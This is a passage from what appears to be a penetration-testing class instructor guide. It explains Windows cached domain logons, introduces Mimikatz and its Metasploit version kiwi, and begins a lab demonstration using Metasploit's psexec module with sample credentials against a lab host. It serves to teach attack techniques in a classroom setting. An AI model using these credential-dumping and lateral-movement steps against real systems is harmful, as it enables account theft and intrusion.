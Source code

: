 According to Windows, each unique user's logon information is cached locally so that, in the event that a domain controller (DC) is unavailable during subsequent logon attempts, they are able to log on. The cached logon information is stored from the previous logon session.

- Even as SYSTEM, viewing the contents of the registry key would not yield any decipherable hash, as the passwords are hashed *and* salted using a hashing algorithm called **MsCacheV2**. However, we will use tools that are able to decrypt the contents. 

#### Mimikatz and Kiwi

Introduce Mimikatz and Kiwi by covering the following:

- **Mimikatz** is a Windows-purposed credential dumping tool that is able to decrypt almost all stored credentials in Windows.
- It is outside the scope of our class to go into details on how Mimikatz works.
- For our class, we will use the Metasploit version of Mimikatz called **kiwi**. 
- Note, this tool is called `kiwi` in Metasploit because the creator of Mimikatz, Benjamin Delpy, goes by the handle GentleKiwi.

Explain to the class that we will now conduct a demonstration on how to use kiwi. 

#### Mimikatz Demonstration

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](Images/psexecoptions.PNG)
	